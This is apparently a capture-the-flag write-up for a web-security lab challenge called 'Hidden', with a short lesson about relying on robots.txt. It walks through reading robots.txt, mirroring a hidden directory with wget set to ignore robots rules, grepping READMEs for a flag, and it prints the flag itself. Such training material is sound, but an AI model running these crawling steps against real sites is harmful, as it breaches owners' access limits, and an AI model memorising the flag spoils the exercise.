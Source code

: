 # Hidden

The robots.txt file is used to tell web crawlers and other well-meaning robots a few things about the structure of a website,
including what areas do not contain interesting information (and should therefore not be indexed).

If you have sensitive areas in your robots.txt file, then you seriously need to review the architecture of your site. 
No sensitive directories should ever be accessible to the public in any way. In fact, anything exposed to the public 
should be secured, whether it is visible or not.


## Exploit

*find_flag.sh* runs the following steps of the exploit. You will need to update the VM_IP before you run.

```./find_flag.sh```


Go to page:

{VM_IP}/robots.txt

This page contains a folder */.hidden*. Navigate to {VM_IP}/.hidden/.
Inside, you will find many directories. 

Run the following command to download all the directories to your computer:

```wget -q -e robots=off -r -nH --no-parent --reject="index.html*" '{VM_IP}/.hidden/'```

* -q quiet
* -e is a flag option it needs to be there for the robots=off to work.
* robots=off means ignore robots file. 
* --no-host-directories       don't create host directories
* --no-parent: don't follow links outside the directory

Run this command to search all the directories and subdirectories for READMEs containing numbers:

```find .hidden -name "README" -exec grep -l -e '[0-9]' {} +```

* -l, --files-with-matches
* grep -E to access the extended regular expression syntax
* -exec command ;
          Execute  command;  true  if 0 status is returned.  All following
          arguments to find are taken to be arguments to the command until
          an  argument  consisting of `;' is encountered

This reveals the filepath containing the flag:

.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README

... and here's the flag! 99dde1d35d1fdd283924d84e6d9f1d820
